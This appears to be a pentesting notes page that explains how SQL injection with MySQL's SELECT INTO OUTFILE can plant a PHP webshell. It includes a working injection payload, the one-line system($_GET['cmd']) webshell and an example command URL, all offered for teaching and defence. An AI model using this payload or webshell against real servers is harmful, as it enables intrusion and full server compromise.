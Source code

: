 ```yaml
---
cover: >-
  https://images.unsplash.com/photo-1662026911591-335639b11db6?crop=entropy&cs=srgb&fm=jpg&ixid=M3wxOTcwMjR8MHwxfHNlYXJjaHwyfHxteXNxbHxlbnwwfHx8fDE3MTU0NTU2ODV8MA&ixlib=rb-4.0.3&q=85
coverY: 0
---
```


# MySQL

In an SQL injection scenario using `SELECT INTO OUTFILE`, an attacker might exploit the vulnerability to upload a webshell onto the server. A webshell is a script that can be accessed via a web browser and allows the attacker to execute server commands, effectively giving them control over the server.

#### Example Scenario:

Imagine a website feature that allows users to export transaction details to a CSV file using a user-input controlled query, similar to the following:

```sql
SELECT transaction_details FROM transactions WHERE user_id = 'user_input';
```

An attacker could manipulate the `user_input` to end the initial query and append a malicious `SELECT INTO OUTFILE` command to upload a webshell:

```sql
1'; SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/shell.php'
```

**Breakdown of the Injection:**

1. **Termination of Original Query**: The attacker terminates the intended SQL query by injecting `1';` which effectively closes the user input for `user_id`.
2. **Webshell Payload**: The attacker starts a new query with `SELECT`, where the content to be selected is a PHP script: `<?php system($_GET["cmd"]); ?>`. This PHP script is a simple webshell that executes commands passed to it via the `cmd` GET parameter.
3. **File Creation**: The payload is written into a new file named `shell.php` in the `/var/www/html/` directory, which is typically accessible via the web browser.

**Result of the Exploit:**

*   If the server permissions allow writing files in the web directory and the application is vulnerable to SQL injection, this will create a file named `shell.php`. An attacker can then access this file via a web browser and execute server commands by appending a `cmd` parameter to the URL, like so:

    ```
    http://example.com/shell.php?cmd=whoami
    ```
* This URL would execute the `whoami` command on the server, and the output would be displayed in the browser, thus confirming the server's control to the attacker.

#### Impact:

This type of attack could lead to full server compromise, allowing an attacker to execute arbitrary commands, manipulate server data, or use the server to launch further attacks.

This example highlights the severity of SQL injection vulnerabilities and underscores the importance of validating and sanitizing all user inputs to prevent such security breaches.
